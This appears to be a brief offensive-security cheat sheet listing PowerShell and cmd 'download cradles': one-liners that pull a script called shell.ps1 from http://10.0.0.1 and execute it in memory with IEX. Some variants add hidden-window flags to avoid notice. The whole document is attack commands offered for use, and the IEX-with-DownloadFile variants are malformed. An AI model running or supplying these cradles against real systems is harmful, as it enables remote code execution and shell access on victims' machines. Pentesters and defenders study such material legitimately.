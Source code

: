 ## Download Cradles

### PowerShell
`IEX(iwr 'http://10.0.0.1/shell.ps1')`<br>
`IEX(New-Object Net.WebClient).DownloadString('http://10.0.0.1/shell.ps1')`<br>
`IEX(New-Object Net.WebClient).DownloadFile('http://10.0.0.1/shell.ps1','shell.ps1')`<br>

### cmd
`powershell.exe -nop -w hidden -c "IEX(iwr 'http://10.0.0.1/shell.ps1')"`<br>
`powershell.exe -nop -w hidden -c "IEX((New-Object Net.WebClient).DownloadString('http://10.0.0.1/shell.ps1'))"`<br>
`powershell.exe -nop -w hidden -c "IEX((New-Object Net.WebClient).DownloadFile('http://10.0.0.1/shell.ps1','shell.ps1'))"`<br>

